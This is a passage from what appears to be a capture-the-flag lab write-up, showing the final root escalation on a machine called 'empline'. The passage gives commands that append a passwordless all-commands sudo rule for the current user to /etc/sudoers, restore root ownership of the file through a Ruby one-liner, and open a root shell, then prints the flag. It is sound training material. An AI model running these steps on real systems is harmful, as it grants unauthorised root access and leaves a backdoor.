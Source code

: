 3. Modify `/etc/sudoers`: 

```
chmod 640 /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

4. Reset the ownership of `/etc/sudoers` to root:

```
/usr/local/bin/ruby -e 'File.chown(0, 0, "/etc/sudoers")'
```

5. Get a root shell:

```
sudo su -
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430170035.png)

There we go, let's read final flag and finish the CTF:

```
root@empline:~# cat /root/root.txt
74fea7cd0556e9c6f22e6f54bc68f5d5
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430170111.png)


